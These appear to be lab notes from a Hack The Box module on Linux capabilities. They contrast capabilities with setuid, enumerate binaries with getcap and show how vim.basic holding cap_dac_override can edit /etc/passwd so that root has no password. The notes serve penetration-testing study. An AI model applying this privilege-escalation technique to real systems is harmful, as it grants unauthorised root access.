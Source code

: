 Capabilities are fine-grained privileges that can be independently enabled or restricted for processes, allowing them to perform specific privileged actions without granting full root access. They help improve security by limiting the power of processes to only what is necessary, reducing the risk of privilege escalation.

While **setuid** grants a process full privileges of the file owner (often root), **capabilities** break down root privileges into smaller, more granular permissions. This means a process can gain only the specific privileges it needs, rather than full root access, reducing security risks.
### Enumeration

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```bash
htb-student@ubuntu:~$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_dac_override+eip
```
### Exploit Example

```bash
cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

Remove the `x` from the `passed` file:

```bash
/usr/bin/vim.basic /etc/passwd
```

This is but one example, Google and hacktricks will have more




